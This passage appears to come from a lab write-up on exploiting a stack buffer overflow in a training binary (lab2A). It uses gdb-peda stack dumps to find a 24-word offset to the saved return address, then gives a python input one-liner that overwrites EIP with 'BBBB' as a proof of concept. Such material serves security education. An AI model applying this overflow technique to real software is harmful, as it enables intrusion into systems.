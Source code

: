 We can see that once the *concatenate_first_chars()* function return, the code will continue at `0x080487e6`. Then, if we check the stack right after the structure, we can see the return address at `0xbffff69c`:

```nasm
gdb-peda$ x/16x 0xbffff670
0xbffff670: 0x43434343  0x43434343  0x43434343  0x0000000b
0xbffff680: 0xbffff687  0x00434241  0x0804a000  0x08048852
0xbffff690: 0x00000001  0xbffff754  0xbffff6b8  0x080487e6
0xbffff6a0: 0xb7fcd3c4  0xb7fff000  0x0804880b  0xb7fcd000
```

Given the concatenation of the characters start to be stored at `0xbffff684` let's do the subtraction:

- `0xbffff69c - 0xbffff684 = 0x18` (or 24 in decimal)

We need to write *24* words before overwriting the return value. Let's write a quick proof of concept.

```nasm
gdb-peda$ r < <(python -c 'print "A" * 12 + "\n" + 23 * "A\n" + 4 * "B\n" + "\n"')
Starting program: /levels/lab02/lab2A < <(python -c 'print "A" * 12 + "\n" + 23 * "A\n" + 4 * "B\n" + "\n"')
Input 10 words:
Failed to read word

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x14
EBX: 0xb7fcd000 --> 0x1a9da8
ECX: 0xb7fd8000 ("Failed to read word\n")
EDX: 0xb7fce898 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff6a0 --> 0xb7fcd3c4 --> 0xb7fce1e0 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbffff6a0 --> 0xb7fcd3c4 --> 0xb7fce1e0 --> 0x0
0004| 0xbffff6a4 --> 0xb7fff000 --> 0x20f34
0008| 0xbffff6a8 --> 0x804880b (<__libc_csu_init+11>:   add    ebx,0x17f5)
0012| 0xbffff6ac --> 0xb7fcd000 --> 0x1a9da8
0016| 0xbffff6b0 --> 0x8048800 (<__libc_csu_init>:  push   ebp)
0020| 0xbffff6b4 --> 0x0
0024| 0xbffff6b8 --> 0x0
0028| 0xbffff6bc --> 0xb7e3ca83 (<__libc_start_main+243>:   mov    DWORD PTR [esp],eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
